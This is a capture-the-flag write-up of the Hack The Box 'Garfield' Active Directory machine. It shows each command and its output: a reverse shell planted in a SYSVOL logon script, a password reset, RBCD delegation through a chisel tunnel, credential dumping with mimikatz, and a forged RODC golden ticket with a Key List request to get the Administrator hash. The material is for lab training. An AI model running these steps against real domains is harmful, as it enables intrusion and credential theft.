




<%
	meta("../../meta.json")
	meta()
	const path = require('path');
	require(path.resolve(path.dirname(inputPath), "../../_partials/hljs-terminal.js"));
	url = url + "/posts/" + path.basename(path.dirname(outputPath)) + "/";
	const _allPosts = metas("../../posts").filter(p => p.meta.published);
	_allPosts.sort((a, b) => b.meta.date.localeCompare(a.meta.date));
	const _mySlug = path.basename(path.dirname(outputPath));
	const _myIdx = _allPosts.findIndex(p => p.directory === _mySlug);
	const prevPost = _myIdx < _allPosts.length - 1 ? _allPosts[_myIdx + 1] : null;
	const nextPost = _myIdx > 0 ? _allPosts[_myIdx - 1] : null;
%>
<%= render("../../_partials/post-header.html", { title, image, url, description, caption, date, tags, reading_time }) %>

Garfield is a Hard Windows Active Directory box that starts from a given low-privilege account, j.arbuckle. That account can't get a shell, but it can write the `scriptPath` attribute on l.wilson and write to the logon scripts in SYSVOL, so I choose what runs when l.wilson logs in. l.wilson can reset the password on l.wilson_adm, which gets WinRM on the domain controller. From there the box is about a Read-Only Domain Controller sitting on an internal Hyper-V network. l.wilson_adm can add itself to RODC Administrators, set up resource-based constrained delegation against RODC01, and get SYSTEM on it through a tunnel. With RODC01's own krbtgt key and its password replication policy opened up, a forged RODC golden ticket and a Key List request get the real Administrator hash from DC01. The diagram at the top of the post shows the whole path.

## Recon

### nmap

`nmap` finds the usual domain controller ports. The host doesn't answer ping, so it needs `-Pn`:

```terminal
❯ nmap -p- --min-rate 5000 -T4 -Pn 10.129.244.207
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
...

❯ nmap -sC -sV -Pn 10.129.244.207
...
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.garfield.htb
| rdp-ntlm-info:
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: garfield.htb
|_  Product_Version: 10.0.17763
Host script results:
| smb2-security-mode:
|_    Message signing enabled and required
|_clock-skew: mean: 7h58m55s, deviation: 0s, median: 7h58m55s
```

This is DC01.garfield.htb, Windows Server 2019 (build 17763). Port 2179 (`vmrdp`) means Hyper-V is installed, which matters later. SMB signing is required, so relaying is out.

The clock is about eight hours ahead of mine. Kerberos rejects anything more than five minutes off, so I add the hosts to `/etc/hosts` and sync to the DC. `timedatectl set-ntp false` has to come first, or `systemd-timesyncd` quietly puts the clock back:

```terminal
❯ echo "10.129.244.207  garfield.htb DC01.garfield.htb DC01" | sudo tee -a /etc/hosts
❯ sudo timedatectl set-ntp false
❯ sudo ntpdate 10.129.244.207
2026-11-05 16:01:44.842773 (-0500) +28735.883413 +/- 0.027772 10.129.244.207 s1 no-leap
CLOCK: time stepped by 28735.883413
```

### Given credentials

HTB provides credentials for j.arbuckle. They work over SMB, RDP and LDAP, but not WinRM:

```terminal
❯ nxc winrm 10.129.244.207 -u j.arbuckle -p 'Th1sD4mnC4t!@1978'
WINRM  10.129.244.207  5985  DC01  [-] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978
❯ nxc smb 10.129.244.207 -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --users
-Username-     -Last PW Set-
Administrator  2025-10-03 17:29:26
krbtgt         2025-08-13 11:05:26
krbtgt_8245    2025-08-17 11:33:39
j.arbuckle     2025-09-09 15:50:55
l.wilson       2026-01-27 21:40:33
l.wilson_adm   2026-01-13 14:56:35
```

The shares are just the defaults. The interesting account is `krbtgt_8245`. Every Read-Only Domain Controller gets its own krbtgt account with a numeric suffix, so this one says there's an RODC before I've looked for it. LDAP confirms it:

```terminal
❯ ldapsearch -x -H ldap://10.129.244.207 -D "j.arbuckle@garfield.htb" -w 'Th1sD4mnC4t!@1978' \
    -b "DC=garfield,DC=htb" "(objectClass=computer)" sAMAccountName | grep sAMAccountName
sAMAccountName: DC01$
sAMAccountName: RODC01$
```

### RODC password replication policy

An RODC only caches the passwords its Password Replication Policy (PRP) allows. The PRP lives on the RODC's computer object, and any domain user can read it:

```terminal
❯ ldapsearch -x -H ldap://10.129.244.207 -D "j.arbuckle@garfield.htb" -w 'Th1sD4mnC4t!@1978' \
    -b "DC=garfield,DC=htb" "(objectClass=computer)" \
    msDS-RevealedUsers msDS-NeverRevealGroup msDS-RevealOnDemandGroup
...
msDS-RevealedUsers: B:96:A00009000700000052D8D41E...:CN=Administrator,CN=Users,DC=garfield,DC=htb
...
msDS-NeverRevealGroup: CN=Denied RODC Password Replication Group,CN=Users,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Account Operators,CN=Builtin,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Server Operators,CN=Builtin,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Backup Operators,CN=Builtin,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Administrators,CN=Builtin,DC=garfield,DC=htb
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb
```

Administrator shows up in `msDS-RevealedUsers`, so its credentials have been cached on RODC01 at some point. But Administrators is in the never-reveal list, and the deny list always wins. That's the end goal, and it's blocked for now.

There are no AS-REP roastable or Kerberoastable accounts, so this isn't a cracking box.

### BloodHound

I collected with `bloodhound-python -c All` and loaded it into BloodHound CE. j.arbuckle has nothing useful beyond IT Support membership. l.wilson is more interesting. It's in Remote Management Users and has ForceChangePassword over l.wilson_adm:



l.wilson_adm is the only member of Tier 1, and Tier 1 can add itself to RODC Administrators:



So once I'm l.wilson, the rest of the path is laid out. The question is how j.arbuckle gets to l.wilson, and BloodHound shows no edge for it.

## Shell as l.wilson

### Writable attributes

BloodHound draws edges for broad rights like GenericWrite. A write on one single attribute usually doesn't appear. bloodyAD asks the DC directly what j.arbuckle can write:

```terminal
❯ bloodyad -u j.arbuckle -p 'Th1sD4mnC4t!@1978' -d garfield.htb --host 10.129.244.207 \
    get writable --otype USER --detail
...
distinguishedName: CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE

distinguishedName: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE
```

`scriptPath` names the logon script a user runs at an interactive logon. Windows looks it up in the `scripts` folder of SYSVOL. There's already one there:

```terminal
❯ smbclient //dc01.garfield.htb/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978' -c "ls garfield.htb/scripts/"
  .                                   D        0  Tue Jan 27 17:13:47 2026
  ..                                  D        0  Tue Jan 27 17:13:47 2026
  printerDetect.bat                   A      217  Fri Sep 12 18:20:29 2025
```

If j.arbuckle can also write that file, then it controls both which script l.wilson runs and what's in it.

### Logon script

I replace `printerDetect.bat` with a batch file that runs a PowerShell reverse shell. `rev.ps1` is a standard TCP reverse shell back to my host on 4444. `-enc` wants UTF-16LE before base64:

```terminal
❯ B64=$(iconv -t UTF-16LE rev.ps1 | base64 -w0)
❯ printf '@echo off\r\npowershell -enc %s\r\n' "$B64" > printerDetect.bat
❯ smbclient //10.129.244.207/SYSVOL -U 'garfield.htb/j.arbuckle%Th1sD4mnC4t!@1978' \
    -c 'cd garfield.htb\scripts; put printerDetect.bat'
putting file printerDetect.bat as \garfield.htb\scripts\printerDetect.bat (4.3 kB/s) (average 4.3 kB/s)
```

The upload works, so the scripts folder is writable. Then I point l.wilson's `scriptPath` at it:

```terminal
❯ bloodyad -u j.arbuckle -p 'Th1sD4mnC4t!@1978' -d garfield.htb --host 10.129.244.207 \
    set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v printerDetect.bat
[+] CN=Liz Wilson,CN=Users,DC=garfield,DC=htb's scriptPath has been updated
```

The script only runs on a real logon, but the box simulates one. A minute or so later:

```terminal
❯ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.135] from (UNKNOWN) [10.129.244.207] 54990
PS C:\Windows\system32>
```

## Shell as l.wilson_adm

l.wilson has ForceChangePassword over l.wilson_adm. `net user` changes passwords over SAMR and wants the old one. `Set-ADAccountPassword -Reset` uses the force-change right directly, and the AD module is there because this is a DC:

```terminal
PS C:\Windows\system32> $p = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Windows\system32> Set-ADAccountPassword -Identity l.wilson_adm -NewPassword $p -Reset
```

l.wilson_adm is in Remote Management Users, so it gets WinRM:

```terminal
❯ evil-winrm -i 10.129.244.207 -u l.wilson_adm -p 'Password123!'
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents>
```

`user.txt` is on l.wilson_adm's desktop.

## SYSTEM on RODC01

### RODC Administrators

Tier 1's AddSelf right lets l.wilson_adm join RODC Administrators without anyone's approval:

```terminal
❯ bloodyad -u l.wilson_adm -p 'Password123!' -d garfield.htb --host 10.129.244.207 \
    add groupMember "RODC Administrators" l.wilson_adm
[+] l.wilson_adm added to RODC Administrators
```

### Finding RODC01

RODC01 isn't reachable from my host. `ipconfig` on DC01 shows why. Besides the HTB interface, there's a Hyper-V virtual switch on an internal network:

```terminal
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> ipconfig
...
Ethernet adapter vEthernet (Switch01):
   IPv4 Address. . . . . . . . . . . : 192.168.100.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
```

RODC01 is a VM on that switch at 192.168.100.2. I upload chisel to DC01 and run it as a reverse SOCKS proxy back to my host, then point proxychains at port 1080:

```terminal
❯ ./chisel server -p 8889 --reverse
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> .\chisel.exe client 10.10.16.135:8889 R:socks
```



### RBCD

With resource-based constrained delegation, the target computer keeps a list of accounts allowed to impersonate users to it, in `msDS-AllowedToActOnBehalfOfOtherIdentity`. l.wilson_adm can write that attribute on RODC01. Any domain user can create machine accounts by default (`MachineAccountQuota` is 10), so I make one and add it to RODC01's list:

```terminal
❯ impacket-addcomputer garfield.htb/j.arbuckle:'Th1sD4mnC4t!@1978' -dc-ip 10.129.244.207 \
    -computer-name 'ATTACKER$' -computer-pass 'Password123!'
❯ impacket-rbcd garfield.htb/l.wilson_adm:'Password123!' -delegate-to 'RODC01$' \
    -delegate-from 'ATTACKER$' -action write -dc-ip 10.129.244.207
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ATTACKER$ can now impersonate users on RODC01$ via S4U2Proxy
```

The ticket has to be AES. RODC01 rejects RC4 here, which is what `getST` uses by default from a password. The AES256 key comes from the password and a salt built from the realm and the machine name:

```terminal
❯ python3 -c "from impacket.krb5.crypto import string_to_key, Enctype; \
    print(string_to_key(Enctype.AES256, 'Password123!', 'GARFIELD.HTBhostattacker.garfield.htb').contents.hex())"
6a8036e638cb174919baf0be567bf6898ced6f2cacc5d4e6746b9ae62804eee8
❯ impacket-getST garfield.htb/'ATTACKER$' -aesKey 6a8036e638cb174919baf0be567bf6898ced6f2cacc5d4e6746b9ae62804eee8 \
    -spn cifs/RODC01.garfield.htb -impersonate Administrator -dc-ip 10.129.244.207
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
```

With the ticket, `psexec` through the tunnel gives SYSTEM on RODC01:

```terminal
❯ export KRB5CCNAME=Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
❯ proxychains -q impacket-psexec -k -no-pass Administrator@RODC01.garfield.htb
[*] Found writable share ADMIN$
[*] Uploading file JvESDAnj.exe
[*] Creating service pZIk on RODC01.garfield.htb.....
[*] Starting service pZIk.....
Microsoft Windows [Version 10.0.17763.8511]

C:\Windows\system32>
```

## Shell as Administrator

### krbtgt_8245

An RODC holds its own krbtgt key so it can issue tickets. As SYSTEM, mimikatz reads it out of LSASS:

```terminal
C:\Windows\system32> C:\Windows\Temp\mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_8245" "exit"
RID  : 00000643 (1603)
User : krbtgt_8245
...
 * Kerberos-Newer-Keys
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Credentials
      aes256_hmac       (4096) : d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
```

A golden ticket signed with this key is only trusted the way RODC01's tickets are. It isn't a domain-wide golden ticket. What it can do is ask DC01 for a user's keys the way a real RODC does when it caches a password. That's the Kerberos Key List request, and DC01 answers only for accounts the PRP allows.

### Opening the PRP

Back in WinRM on DC01, l.wilson_adm, now an RODC Administrator, can edit RODC01's policy. I add Administrator to the reveal-on-demand list and clear the never-reveal list completely. Removing only Administrators isn't enough, because membership in any group left on the deny list still blocks the request:

```terminal
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> Set-ADObject -Identity "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" `
    -Add @{'msDS-RevealOnDemandGroup'='CN=Administrator,CN=Users,DC=garfield,DC=htb'}
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> Set-ADObject -Identity "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" `
    -Clear "msDS-NeverRevealGroup"
```

### RODC golden ticket and Key List

On RODC01, Rubeus forges a TGT for Administrator with `/rodcNumber:8245` and the krbtgt_8245 AES key. It needs Rubeus 2.3.3 or later for `/rodcNumber` and `/keyList`:

```terminal
PS C:\Windows\Temp> .\Rubeus.exe golden /rodcNumber:8245 /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 `
    /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357 /nowrap
[*] Forged a TGT for 'Administrator@garfield.htb'
[*] base64(ticket.kirbi):
      doIFkjCCBY6gAwIBBaEDAgEWooIEfzCCBHth...
```

Then I send it to DC01 as a Key List request:

```terminal
PS C:\Windows\Temp> .\Rubeus.exe asktgs /keyList /service:krbtgt/garfield.htb /dc:DC01.garfield.htb /ticket:doIFkjCCBY6g... /nowrap
[+] TGS request successful!
...
  Password Hash            :  EE238F6DEBC752010428F20875B092D5
```



Impacket's `secretsdump -use-keylist` should do the same from Kali, but it sends the wrong realm and fails with `KDC_ERR_WRONG_REALM`. Running Rubeus on RODC01 avoids that.

With Administrator's NT hash, WinRM to DC01:

```terminal
❯ evil-winrm -i 10.129.244.207 -u Administrator -H 'ee238f6debc752010428f20875b092d5'
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
```

`root.txt` is on Administrator's desktop.

<%= render("../../_partials/post-footer.html", { url, title, tags, prevPost, nextPost }) %>
